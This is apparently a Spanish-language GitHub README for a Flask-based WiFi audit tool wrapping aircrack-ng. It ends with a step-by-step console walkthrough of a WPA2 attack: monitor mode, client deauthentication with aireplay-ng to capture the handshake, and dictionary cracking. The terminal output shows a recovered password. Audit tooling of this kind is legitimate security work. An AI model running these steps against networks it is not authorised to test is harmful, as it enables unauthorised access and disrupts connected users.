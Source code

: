 # WiFi Audit Tool

Esta es una herramienta de auditoría WiFi basada en Flask que interactúa con herramientas como `aircrack-ng` para realizar auditorías de redes WiFi, pero con una pagina web.

## Estructura del Proyecto
wifi_audit/
│
├── src/
│   ├── app.py
│   ├── routes.py
│   ├── services.py
│   ├── utils.py
│   ├── templates/
│   │   ├── index.html
│   │   ├── audit_panel.html
│   │   └── monitor_mode.html
│   ├── static/
│   │   ├── js/
│   │   │   └── scripts.js
│   │   ├── css/
│   │   │   └── styles.css
│   │   └── images/
│   │       └── logo.png
│   └── logs/
│       └── audit_logs.log
├── README.md
├── requirements.txt
├── .gitignore
└── venv/  # Entorno virtual (si necesario, fuera de src)


## Instalación

1. Clona el repositorio:
    ```bash
    git clone 
    cd wifi_audit
    ```

2. Crea y activa un entorno virtual:
    ```bash
    python3 -m venv venv
    source venv/bin/activate  # Si vas a usar Windows usa `venv\Scripts\activate`
    ```

3. Instala las dependencias, solo basta con ejecutar este comando:
    ```bash
    pip install -r requirements.txt
    ```

## Uso

1. Ejecuta la aplicación:
    ```bash
    flask run
    ```

2. Con esto se abrira tu navegador y te dirigira al link `http://127.0.0.1:5000`.

## Estructura del Código

- `app.py`: Archivo principal para inicializar Flask.
- `routes.py`: Registro y gestión de rutas Flask.
- `services.py`: Funciones y lógica del backend.
- `utils.py`: Funciones reutilizables y utilidades.
- `templates/`: Carpeta para las plantillas HTML.
- `static/`: Carpeta para archivos estáticos.
- `logs/`: Carpeta para los logs.


## Licencia

Este proyecto está licenciado bajo la Licencia MIT.


Para poder realizar esta auditoria a traves de consola, necesitamos instalar previamente algunos recursos.

El primero sera aircrack

    sudo apt install aircrack-ng

Ahora en la terminal buscamos las interfaces de red que esten disponilbles de la siguiente forma:
    
    ifconfig

Nos apareceran todas las interfaces, pero solo necesitamos la de nuestra antena wifi que aparecera de esta forma:

    wlan0 

Necesitamos que nuestra interfaz este en modo monitor, para eso ejecutamos lo siguiente     

    sudo airmon-ng start wlan0
    
Y ahora nos aparecera algo asi:

    wlan0mon

El siguiente comando nos permitirá escanear todas las redes wifi disponibles
  
    sudo airodump-ng wlan0mon 
    
Alli se encontrara la red que queremos auditar 

    F2:F3:98:74:2C:1A  -75        7        0    0  11  180   WPA2 CCMP   PSK  Redmi note10 pro                                         
    

Este comando realiza un escaneo a los dispositivos conectados a la red y muesstra la estation lo cual  es importante para la auditoria 

    sudo airodump-ng -c 11 --bssid F2:F3:98:74:2C:1A -w auditoria wlan0mon

Con airplay se puede desahibilitar la conexion de los dispositivos conectados, el cual permite capturar el intercambio de handshake.

    sudo aireplay-ng -0 9 -a F2:F3:98:74:2C:1A -c 14:D4:24:8E:B5:4F wlan0mon

Este seria elresultado
    CH 11 ][ Elapsed: 3 mins ][ 2024-11-28 16:05 ][ WPA handshake: F2:F3:98:74:2C:1A 

Una vez capturado el handshake se ingresa al comando junto con el diccionario y el archivo .cap, para realizar el crackeo de la contraseña wifi.
    
    sudo aircrack-ng -b F2:F3:98:74:2C:1A -w diccionario.txt auditoria-02.cap 

resultado del terminal:

Aircrack-ng 1.7 

      [00:00:00] 4/12 keys tested (133.64 k/s) 

      Time left: 0 seconds                                      58.33%

                          KEY FOUND! [ universe18 ]


      Master Key     : F5 4B 1A 56 DC B7 4B CC BC BC F9 D7 7B 40 A1 ED 
                       D8 4A 38 3F 57 7F A5 76 68 D1 E7 D4 BC 34 D3 95 

      Transient Key  : 3F 4A E3 57 2D 65 4A B9 02 0D F8 2F 79 05 59 36 
                       6B 2C 0D 38 F9 3A 4A 11 69 65 DE AC 59 65 28 2C 
                       F7 E0 E9 42 44 5E 69 2A 11 48 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : E4 D0 69 8B 8E 27 96 16 33 23 15 2C 0E AC 7A 82 


sudo airmon-ng stop wlan0mon  -> se desactiva el modo monitor 
